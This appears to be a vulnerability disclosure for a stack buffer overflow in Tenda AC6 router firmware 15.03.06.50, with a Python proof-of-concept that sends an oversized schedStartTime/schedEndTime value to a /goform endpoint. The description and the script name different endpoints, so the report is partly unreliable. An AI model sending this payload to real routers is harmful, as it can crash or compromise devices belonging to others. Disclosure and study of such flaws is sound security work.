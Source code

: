 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/saveParentControlInfo`. When `schedStartTime`/`schedEndTime` is specified with excessive data, the buffer overflow occurs during `strcpy`.

![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)
## poc
![alt text](image.png)
![alt text](image-4.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'schedWifiEnable':0, 'schedStartTime': payload, 'schedEndTime': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'
send_payload("http://10.10.10.1/goform/openSchedWifi", payload)
```
